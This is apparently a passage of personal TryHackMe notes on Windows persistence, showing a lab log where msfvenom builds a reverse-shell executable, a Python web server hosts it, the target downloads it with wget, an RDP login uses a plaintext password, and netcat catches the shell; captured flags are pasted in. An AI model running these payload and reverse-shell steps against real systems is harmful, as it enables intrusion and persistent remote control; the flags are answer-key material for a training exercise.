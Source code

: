Insert flag12 here

*THM{I_INSIST_GO_FIRST}*

![[Pasted image 20220911165827.png]]

![[Pasted image 20220911171545.png]]
remove this cz won't get flag13
```
┌──(kali㉿kali)-[~/payloads]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.11.81.220 LPORT=4453 -f exe -o revshell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: revshell.exe
                                                                                           
┌──(kali㉿kali)-[~/payloads]
└─$ python3 -m http.server 1337
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
10.10.170.100 - - [11/Sep/2022 17:56:38] "GET /revshell.exe HTTP/1.1" 200 -

PS C:\Users\Administrator> cd C:\Windows                                                                                PS C:\Windows> wget http://10.11.81.220:1337/revshell.exe -o revshell.exe   

┌──(kali㉿kali)-[~/IDS_IPS_evasion]
└─$ xfreerdp /u:Administrator /p:'Passwd123' /v:10.10.170.100 /size:85%


┌──(kali㉿kali)-[~/payloads]
└─$ nc -nvlp 4453
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::4453
Ncat: Listening on 0.0.0.0:4453
Ncat: Connection from 10.10.170.100.
Ncat: Connection from 10.10.170.100:50091.
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>cd C:\flags
cd C:\flags

C:\flags>.\flag13.exe
.\flag13.exe
THM{USER_TRIGGERED_PERSISTENCE_FTW}

```

Insert flag13 here
*THM{USER_TRIGGERED_PERSISTENCE_FTW}*

### Backdooring the Login Screen / RDP 
